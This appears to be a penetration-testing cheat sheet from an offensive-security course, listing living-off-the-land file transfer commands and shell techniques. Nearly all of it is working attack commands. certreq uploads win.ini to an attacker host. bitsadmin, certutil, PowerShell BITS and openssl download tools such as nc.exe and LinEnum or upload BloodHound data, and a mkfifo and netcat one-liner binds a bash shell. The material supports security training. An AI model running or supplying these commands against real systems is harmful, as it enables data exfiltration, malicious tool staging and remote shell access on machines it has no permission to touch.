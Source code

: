 ### [Living off The Land]

##### [LOLBAS for Windows](https://lolbas-project.github.io/#) and [GTFOBins](https://gtfobins.github.io/) for Linux are websites where we can search for binaries we can use for different functions.

| **Command** | **Description** |
| --------------|------------------- |
| `certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini` | Upload win.ini to our Pwnbox -CMD |
| `sudo nc -lvnp 80` | File Received in our Netcat Session |
| | |
| **OPENSSL** |  |
| `openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem` | Create Certificate in our Pwnbox |
| `openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh` | Stand up the Server in our Pwnbox |
| `openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh` | Download File from the Compromised Machine |
| | |
| **Other Common Living off the Land tools Powershell** | |
| `bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe` | File Download with Bitsadmin |
| `Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"` | PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers. DOWNLOAD |
| `Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql` | UPLOAD |
| | |
| **Certutil** |  Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto wget for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage. |
| `certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe` | Download a File with Certutil -CMD |

---

# Shells & Payloads

### Anatomy of a Shell

|**Commands** |**Description**|
|---|---|
| `ps` | Shell Validation From 'ps' |
| `env` | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use |

### Bind Shells

|**Commands** |**Description**|
|---|---|
| `nc -lvnp 7777` | Server - Target starting Netcat listener |
| `nc -nv 10.129.41.200 7777` | Client - Attack box connecting to target |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f` | Server - Binding a Bash shell to the TCP session |
| `nc -nv 10.129.41.200 7777` | Client - Connecting to bind shell on target |
